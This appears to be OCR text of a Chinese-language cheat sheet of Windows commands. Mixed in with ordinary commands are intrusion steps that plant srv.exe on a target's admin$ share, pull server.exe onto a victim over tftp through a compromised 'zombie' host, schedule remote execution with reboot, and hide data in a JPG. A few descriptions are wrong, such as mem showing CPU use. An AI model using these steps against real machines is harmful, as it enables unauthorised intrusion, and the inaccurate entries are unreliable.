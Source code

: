 
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机


finger username @host 查看最近有哪些用户登陆


telnet ip 端口 远和登陆服务器,默认端口为23


open ip 连接到IP（属telnet登陆后的命令）


telnet 在本机上直接键入telnet 将进入本机的telnet


copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件


copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下


copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件


copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：


xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件


用参数/e才可连目录下的子目录一起复制到目标地址下。


tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送


tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机


ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)


route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface


arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息


start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令


mem 查看cpu使用情况


attrib 文件名(目录名) 查看某文件（目录）的属性


attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性


dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间


date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间


set 指定环境变量名称=要指派给变量的字符 设置环境变量

